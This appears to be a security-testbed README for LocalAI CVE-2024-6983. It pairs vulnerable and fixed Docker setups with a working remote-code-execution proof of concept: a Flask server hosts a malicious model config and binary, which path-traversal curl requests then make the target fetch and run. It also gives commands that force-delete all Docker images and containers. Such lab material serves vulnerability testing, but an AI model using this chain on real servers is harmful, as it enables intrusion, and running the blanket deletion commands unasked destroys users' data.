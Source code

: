 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script. You may need to install Flask and PyInstaller via pip. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Python Script:

```py
from flask import Flask,send_file,request
import tempfile
import PyInstaller.__main__
import os

app=Flask(__name__)

CONF="""name: "life"

download_files:
  - filename: "app.bin"
    uri: "{0}app.bin"
"""

# Builds exploit code
def build():
    CODE = 'open("/tmp/test.txt","a").write("1337")' # Python code we want to run
    appname="app.bin"
    if os.path.isfile(appname):
        return appname
    with tempfile.NamedTemporaryFile(delete=False) as fp:
        fp.write(CODE.encode())
        fp.close()
        PyInstaller.__main__.run(["--onefile","--clean","--workpath","/tmp/build/","--specpath","/tmp","--distpath",".","-n",appname,fp.name])
    return appname

# Serve model.yaml file
@app.get("/model.yaml")
def model():
    return CONF.format(request.root_url)

# Serve app.bin file
@app.get("/app.bin")
def files():
    return send_file(build())

# Start the server
app.run("0.0.0.0",8000)
```

Curl Requests:

```sh
# Run above Python script first.
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```sh
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
